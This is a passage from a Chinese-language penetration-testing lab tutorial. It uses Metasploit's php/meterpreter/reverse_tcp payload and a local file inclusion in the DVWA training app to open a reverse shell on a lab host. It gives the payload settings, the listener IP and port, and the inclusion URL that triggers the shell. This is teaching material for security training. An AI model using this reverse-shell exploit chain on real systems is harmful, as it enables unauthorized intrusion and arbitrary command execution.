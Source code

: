 ![use_module](https://doc.shiyanlou.com/document-uid113508labid2427timestamp1482741190323.png/wm)

然后设置我们所使用的攻击脚本：

```
set PAYLOAD php/meterpreter/reverse_tcp
```

![set_payload](https://doc.shiyanlou.com/document-uid113508labid2427timestamp1482741197463.png/wm)

此时需要加载片刻，成功的加载之后，设置我么我们的 IP 与 端口号了：

```
set LHOST 192.168.122.101

set LPORT 1111
```

![set_localhost](https://doc.shiyanlou.com/document-uid113508labid2427timestamp1482741206359.png/wm)

我们还可以通过 `show options` 查看我们设置是否无误：

![show_options](https://doc.shiyanlou.com/document-uid113508labid2427timestamp1482741214167.png/wm)

我们可以使用 `exploit` 亦或者是 `run` 命令开始攻击，两个命令的作用相同，使用任意一个都可以：

![show_run](https://doc.shiyanlou.com/document-uid113508labid2427timestamp1482741223670.png/wm)

做好这一切准备的工作，我们就使用本地包含来是我们刚刚放置的脚本运行：

```
192.168.122.102/dvwa/vulnerabilities/fi/?page=../../hackable/uploads/reverse_shell.php
```

![show_load](https://doc.shiyanlou.com/document-uid113508labid2427timestamp1482741232357.png/wm)

因为我们的脚本会与我们的 msfconsole 保持连接，程序无法执行完，所以一直处于加载中的状态，此时我们回头来看看我们的 msfconsole 的变化：

![show_msfconsole](https://doc.shiyanlou.com/document-uid113508labid2427timestamp1482741242214.png/wm)

做到这一步说明我们已经深入敌军内部了，我们通过 help 可以看到我们可以执行很多命令，这些工具已经为我们提供好了：

![show_help](https://doc.shiyanlou.com/document-uid113508labid2427timestamp1482741250856.png/wm)

从获取系统信息，当前的进程 IP，执行一个当个命令，再到直接登陆 shell，应有尽有。

我们输入 `shell` 指令：

![show_shell](https://doc.shiyanlou.com/document-uid113508labid2427timestamp1482741262693.png/wm)

这样就说明我们已经成功登陆到对方 shell 终端了，我们可以输入任何命令：

![show_command](https://doc.shiyanlou.com/document-uid113508labid2427timestamp1482741275740.png/wm)

这样我们便成功的使用 metasploit 完成了目标主机的深入渗透。

## 5. 总结

本节实验中我们学习了以下内容，任何不清楚的地方欢迎到[实验楼问答](https://www.shiyanlou.com/questions)与我们交流：

- 回顾文件包含漏洞
- 利用 msf 生成攻击脚本
- 利用反弹 shell 登陆目标主机

请务必保证自己能够动手完成整个实验，只看文字很简单，真正操作的时候会遇到各种各样的问题，解决问题的过程才是收获的过程。

## 6. 作业

1.利用 mutillidae 完成同样的实验
